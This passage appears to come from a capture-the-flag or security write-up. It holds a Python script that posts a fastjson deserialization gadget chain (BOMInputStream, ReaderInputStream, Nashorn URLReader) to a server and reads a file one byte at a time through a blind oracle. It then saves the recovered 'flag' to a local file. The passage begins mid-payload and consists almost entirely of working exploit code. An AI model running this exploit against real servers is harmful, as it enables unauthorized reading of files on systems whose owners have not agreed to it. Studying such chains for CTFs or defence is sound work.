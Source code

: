 ```
      "@type": "org.apache.commons.io.input.BOMInputStream",
      "delegate": {
        "@type": "org.apache.commons.io.input.ReaderInputStream",
        "reader": {
          "@type": "jdk.nashorn.api.scripting.URLReader",
          "url": "file:///tmp/"
        },
        "charsetName": "UTF-8",
        "bufferSize": "1024"
      },
      "boms": [
        {
          "charsetName": "UTF-8",
          "bytes": ['''+bytes+''']
        }
      ]
    },
    "boms": [
      {
        "charsetName": "UTF-8",
        "bytes": [36]
      }
    ]
  },
  "b": {"$ref":"$.a.delegate"}
}'''
    return data
header = {'Content-Type':'application/json'}
header = {}
cookie = {}
flag = ''
bytes = ''
for ii in range(1,1000):
    for i in range(0, 257):
        if i == 256:
            f = open("1.txt","w")
            f.write(flag)
            print(flag.decode('UTF-8'))
            exit()
        byte = bytes+str(i)+','
        r = requests.post(url=url,data={'json':getdata(byte)},headers=header,cookies=cookie)
        #print(r.text)
        if "bytes" in r.text:
            bytes = bytes + str(i)+','
            print(bytes)
            flag = flag + chr(i)
            break
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU5MwZN6d85YzicI6P6JkloUWicjJ4wA71e3nE7x3HBPrs8epzjjlnDTsZ8f3C94tQW5zDZu2KqvgtiaA/640?wx_fmt=png&from=appmsg "")  
  